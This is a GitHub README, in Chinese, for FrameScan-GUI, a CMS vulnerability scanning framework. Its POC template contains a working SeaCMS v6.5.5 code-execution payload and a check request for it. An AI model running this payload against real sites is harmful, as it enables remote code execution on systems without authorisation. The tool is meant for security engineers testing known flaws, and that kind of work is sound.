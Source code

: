 # FrameScan

## 工具简介
FrameScan-GUI是一款python3和Pyqt编写的具有图形化界面的cms漏洞检测框架，是[FrameScan](https://github.com/qianxiao996/FrameScan) 的加强版。支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。
#### 下载地址：https://github.com/qianxiao996/FrameScan-GUI/releases

## 支持平台

- Windows  


### 使用方法

下载本项目，运行exe即可。

![1](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/1.jpg)

![2](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/2.jpg)

## 更新日志

#### 2020-04-05 v1.2

1、修复菜单栏开始扫描
2、增加选择线程
3、开始扫描后设置按钮不可点击，结束后恢复
4、修复若干bug
5、优化程序代码
6、使用QSS来美化界面

#### 2019-10-29  v1.1

初始提交

## 自定义POC模板

以下为POC模板，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请更改result内容，result[0]为漏洞名称,result[1]为返回的内容，result[2]为测试结果
        result = ['seacms v6.5.5代码执行漏洞','','']
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            data = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if data.status_code == 200 and 'phpinfo' in data.text:
                result[2]= "存在"
                result[1] = "URL:%s\nPOST:%s"%(url_path,payload)
            else:
                result[2] = "不存在"
        except Exception as e:
            # print (e)
            result[2] ="未知"
            #这里可设置未知，连接超时等，只有不存在不会显示到结果中。
        return result
        #最后一定要返回一个带有3个参数的列表。不然会出错误。

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    print(testVuln.run())
```

## 鸣谢

POC多数来源于[AngelSword](https://github.com/Sch01ar/AngelSword)
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**



## 使用问题

### 问题一

![3](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/3.png)

将Qt安装目录下的platforms文件夹复制到exe程序目录。若风格不同，复制styles文件夹到程序目录。

### 问题二

若出现以下提示模块不存在，请pip安装模块或在Plugins.py中注释掉该行。

![4](https://github.com/qianxiao996/FrameScan-GUI/blob/master/img/4.png)

```
pyinstaller -D -w FrameScan-GUI.py -i img/main.ico
```